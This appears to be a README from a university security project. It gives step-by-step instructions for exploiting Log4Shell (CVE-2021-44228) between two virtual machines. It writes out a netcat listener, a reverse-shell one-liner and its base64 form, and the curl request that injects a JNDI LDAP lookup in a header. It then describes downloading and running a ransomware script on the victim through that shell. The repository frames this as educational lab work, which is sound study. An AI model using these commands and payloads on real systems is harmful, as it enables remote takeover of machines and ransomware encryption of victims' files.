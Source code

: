 # UNIVR - Fondamenti di Sicurezza e Privacy - Project 2022
<img src="https://img.shields.io/badge/%20-Shell-green?style=flat-square"> <img src="https://img.shields.io/badge/%20-Java-brown?style=flat-square">

### Warning

#### :warning: *This repository is for educational purpose only so do not use it on machines that are not yours*

#### :warning: *Do not run ransomware.sh except in your dedicated test virtual machine. Any file with the chosen extension will be encrypted, so be careful as you may lose your files*

<br>

---

<br>

To simulate **CVE-2021-44228**[<sup>1</sup>](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), Log4j vulnerability also known as **Log4Shell**, you can follow this steps.

### General setup

 - Download and install two linux based VM.
 I chosed Kali Linux Virtual Box image[<sup>2</sup>](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)
 - Create a Network with NAT

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VBox_NAT.png">
 
 - Set the Network to the new one for both VMs

 <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/VM_Network.png">

 - Run both VMs one after the other and run this command:<br>
 `sudo apt-get update -y && sudo apt-get upgrade -y`<br>
 - Download\* the Java SE Development Kit 8u181 (jdk1.8.0_181) from Oracle website [<sup>3</sup>](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz) and install it in the *victim* VM<br>
 *you need an Oracle account (it's free)

### Victim VM setup

- In the victim VM download the [Log4ShellVictim.jar](https://github.com/Fantantonio/Log4ShellVictim/blob/master/Log4ShellVictim.jar) and run it with the command:<br>
`sudo java- jar /to/your/path/Log4ShellVictim.jar`.<br>
The default port is 8080
- Use `ifcongig` command to know your victim VM's IP, in my case is `192.168.0.5`

### Attacker VM setup

- Download the [JNDIExploit.v1.2.zip](https://github.com/black9/Log4shell_JNDIExploit/blob/main/JNDIExploit.v1.2.zip) in the *attacker* VM and unzip it with the command:<br>
`unzipJNDIExploit.v1.2.zip`
- Run it with the following command:<br>
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.0.4 -p 8888`<br>
where `192.168.0.4` is the attacker VM's IP and `8888` is the HTTP listener port.<br>
Consider that the LDAP server will listen to the `1389` port by default
- Run `nc -nvlp 1234` in the attacker VM to listen to the `1234` port with Netcat
- Get a reverse shell command like this one:<br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f`\*<br>
 Note that `1234` is the port we set Netcat to listen to earlier<br>
 \* you can use the [Revshell](https://www.revshells.com) website to build your own command
 - Run:<br>
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/f" | base64`<br>
to encode it in base64.<br>
Of course use your command replacing mine.
 The output should look something like this:<br>
`cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=`
 - Run the curl from the attacher VM like so:<br>
`curl 192.168.0.5:8080 -H 'X-Api-Version:${jndi:ldap://192.168.0.4:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=}’`<br>
Replace `192.168.0.5` with your victim VM's IP, `192.168.0.4` with your attacker VM's IP and `cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguMC40IDEyMzQgPi90bXAvZgo=` with your remote shell command base64 encoded.

Now you should see the vulnerability letting you as attacker run the command you injected in the request header and the remote shell ready where you set Netcat listen.<br>
<img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/Victim_VM.png"> <img src="https://github.com/Fantantonio/Log4ShellVictim/blob/master/readme_images/Attacker_VM.png">

### A step further

- Download ransomware.sh file in `\var\www\html` folder of the attacker machine.<br>
Remember to edit the script adding your bot token, your telegram account id, the file extensions you want to encrypt and the string you want to write in the README.txt file will be generated for the victim
- Start apache in the attacker machine running:<br>
`service apache2 start`
- Use the remote shell to download the ransomware file in the victim machine with the command:<br>
`wget 192.168.0.4/ransomware.sh`<br>
where `192.168.0.4` is the attacker VM's IP
- One more time use the remote shell to run it:<br>
`sh ransomware.sh`<br>
and copy down the decryption key you'll receive in console as output if you want to be able to decrypt everything using the `decrypter.sh` file

### Footnotes
[\[1\] https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)<br>
[\[2\] https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova](https://kali.download/virtual-images/kali-2021.4a/kali-linux-2021.4a-virtualbox-amd64.ova)<br>
[\[3\] https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz](https://www.oracle.com/it/java/technologies/javase/javase8-archive-downloads.html#:~:text=jdk%2D8u181%2Dlinux%2Dx64.tar.gz)<br>
